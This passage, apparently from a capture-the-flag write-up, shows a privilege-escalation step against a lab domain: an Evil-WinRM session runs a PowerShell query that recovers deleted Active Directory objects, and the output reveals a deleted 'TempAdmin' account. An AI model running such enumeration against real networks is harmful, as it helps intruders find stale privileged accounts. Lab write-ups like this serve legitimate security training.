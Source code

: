 ## Privilege Escalation

### AD Recycle Bin

```PowerShell
*Evil-WinRM* PS C:\> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects 


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```
